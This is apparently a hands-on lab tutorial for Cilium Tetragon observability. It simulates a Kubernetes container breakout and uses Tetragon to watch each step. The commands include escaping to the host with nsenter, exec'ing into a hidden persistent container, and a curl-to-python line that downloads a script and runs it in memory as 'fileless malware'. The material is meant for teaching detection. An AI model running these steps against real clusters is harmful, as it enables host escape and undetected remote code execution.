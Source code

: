 ## 🐍 Execute a malicious python script in memory
We have persisted the breakout by spinning up an invisible container, now we can download and execute a malicious script in memory that never touches disk.

For this we are using a simple python script as a fileless malware which is almost impossible to detect by using traditional userspace tools.


### Payload execution

Now, that you actually have persisted the breakout by spinning up an invisible container, you can download and execute a malicious script in memory that never touches disk. Note that this simple python script can be a fileless malware which is almost impossible to detect by using traditional userspace tools.

First, in >_ Terminal 1 let's monitor the generated Security Observability events like we did before.
```
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
```
In >_ Terminal 3 let's enter to the sith-infiltrator:
```
kubectl exec -it sith-infiltrator -- /bin/bash
```
and then to the node again:
```
nsenter -t 1 -a bash
```
Find the container ID of the hack-latest container:
```
CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
```
In the same >_ Terminal 3 let's crictl exec into the invisible container:
```
crictl exec -it $CONT_ID /bin/bash
```
In the logs in >_ Terminal 1 the first process_exec event shows the bash execution in a container with a container id (for example 24220f07dacc), which is the invisible hack-latest container.

Note that due to ringbuffer/latency reasons it sometimes can take a moment or two until certain log messages appear!
```bash
💥 exit    default/sith-infiltrator /bin/bash  0 🛑 CAP_SYS_ADMIN
...
🚀 process default/sith-infiltrator /usr/bin/crictl exec -it a931f484e2889b50a24ff2d50b250ee5a820212fa4fc75a9d386941c7fcfba61 /bin/bash 🛑 CAP_SYS_ADMIN
```

To be able to fine grain the Security Observability events from Cilium Tetragon, start monitoring the events that match process names curl or python in >_ Terminal 2:
```
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --process curl,python
```
Then, in >_ Terminal 3 download a malicious python script and execute it in memory:
```
curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
```
